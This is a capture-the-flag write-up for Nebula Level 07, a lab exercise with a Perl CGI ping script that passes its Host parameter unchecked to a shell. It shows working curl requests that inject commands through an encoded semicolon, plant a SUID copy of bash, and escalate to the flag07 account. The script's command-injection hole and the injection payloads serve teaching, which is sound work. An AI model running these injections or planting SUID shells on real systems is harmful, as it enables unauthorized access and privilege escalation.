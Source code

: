 # Level 07

The **flag07** user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

To do this level, log in as the **level07** account with the password **level07**. Files for this level can be found in /home/flag07.

## Source Code

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

## Writeup

This perl script use CGI to open a web page. Let's find the configuration file to get the port the script use to print the page.
List the content of **/home/flag03** directory:

```bash
level07@nebula:/home/flag07$ ll
total 10
drwxr-x--- 2 flag07 level07  102 2011-11-20 20:39 ./
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ../
-rw-r--r-- 1 flag07 flag07   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag07 flag07  3353 2011-05-18 02:54 .bashrc
-rwxr-xr-x 1 root   root     368 2011-11-20 21:22 index.cgi*
-rw-r--r-- 1 flag07 flag07   675 2011-05-18 02:54 .profile
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf
```

There is the configuration file **thttpd.conf**:

```conf
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07

# Do a chroot() at initialization time, restricting file access to the program's
# current directory. If chroot is the compiled-in default (not the case on
# Debian), then nochroot disables it. See thttpd(8) for details.
nochroot
#chroot

# Specifies a directory to chdir() to after chrooting. If you're not chrooting,
# you might as well do a single chdir() with the dir option. If you are
# chrooting, this lets you put the web files in a subdirectory of the chroot
# tree, instead of in the top level mixed in with the chroot files.
#data_dir=

# Don't do explicit symbolic link checking. Normally, thttpd explicitly expands
# any symbolic links in filenames, to check that the resulting path stays within
# the original document tree. If you want to turn off this check and save some
# CPU time, you can use the nosymlinks option, however this is not
# recommended. Note, though, that if you are using the chroot option, the
# symlink checking is unnecessary and is turned off, so the safe way to save
# those CPU cycles is to use chroot.
#symlinks
#nosymlinks

# Do el-cheapo virtual hosting. If vhost is the compiled-in default (not the
# case on Debian), then novhost disables it. See thttpd(8) for details.
#vhost
#novhost

# Use a global passwd file. This means that every file in the entire document
# tree is protected by the single .htpasswd file at the top of the tree.
# Otherwise the semantics of the .htpasswd file are the same. If this option is
# set but there is no .htpasswd file in the top-level directory, then thttpd
# proceeds as if the option was not set - first looking for a local .htpasswd
# file, and if that doesn't exist either then serving the file without any
# password. If globalpasswd is the compiled-in default (not the case on Debian),
# then noglobalpasswd disables it.
#globalpasswd
#noglobalpasswd

# Specifies what user to switch to after initialization when started as root.
user=flag07

# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi

# Specifies a file of throttle settings. See thttpd(8) for details.
#throttles=/etc/thttpd/throttle.conf

# Specifies a hostname to bind to, for multihoming. The default is to bind to
# all hostnames supported on the local machine. See thttpd(8) for details.
#host=

# Specifies a file for logging. If no logfile option is specified, thttpd logs
# via syslog(). If logfile=/dev/null is specified, thttpd doesn't log at all.
#logfile=/var/log/thttpd.log

# Specifies a file to write the process-id to. If no file is specified, no
# process-id is written. You can use this file to send signals to thttpd. See
# thttpd(8) for details.
#pidfile=

# Specifies the character set to use with text MIME types.
#charset=iso-8859-1

# Specifies a P3P server privacy header to be returned with all responses. See
# http://www.w3.org/P3P/ for details. Thttpd doesn't do anything at all with the
# string except put it in the P3P: response header.
#p3p=

# Specifies the number of seconds to be used in a "Cache-Control: max-age"
# header to be returned with all responses. An equivalent "Expires" header is
# also generated. The default is no Cache-Control or Expires headers, which is
# just fine for most sites.
#max_age=
```

The port used by the program is **7007**.
We can use the browser or **curl** command to interact with it:

```bash
curl -X GET "http://nebula:7007/index.cgi"
```

This is the output:

```
<html><head><title>Ping results</title></head><body><pre>Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
</pre></body></html>
```

By reading the code, we can pass an argument named **Host** with an ip:

```bash
curl -X GET "http://nebula:7007/index.cgi?Host=127.0.0.1"
```

This is the output:

```
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.012 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.012/0.013/0.015/0.003 ms
</pre></body></html>
```

The problem in the code is not check the content of the param, we can inject another command with '**;**' character url encoded.

We can find the hex value of **ascii** code with the command `man ascii` and we can discover that the url encoded version is **%3B**.

```
curl -X GET "http://nebula:7007/index.cgi?Host=127.0.0.1%3Bid"
```

This is the output:

```
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.014 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.013 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.013/0.013/0.014/0.003 ms
uid=992(flag07) gid=992(flag07) groups=992(flag07)
</pre></body></html>
```

We have found a way to execute command with **flag07** account.

Let's make a copy of the **/bin/bash** binary and add to it the **SUID**.

**NB:** to write spaces in url encoded use the ascci code in hex '**%20**'.

```bash
curl -X GET "http://nebula:7007/index.cgi?Host=127.0.0.1%3Bcp%20/bin/bash%20/home/flag07/bash%3Bchmod%20u%2Bs%20/home/flag07/bash"
```

Now in the home of **flag07** user there is a bash binary with SUID.
We can now launch, inside the machine:

```bash
/home/flag07/bash -p
```

This is the output:

```bash
level07@nebula:/home/flag07$ /home/flag07/bash -p
bash-4.2$ id
uid=1008(level07) gid=1008(level07) euid=992(flag07) groups=992(flag07),1008(level07)
```

We are now logged as **flag07** user, we can run the **getflag** command:

```bash
bash-4.2$ getflag
You have successfully executed getflag on a target account
```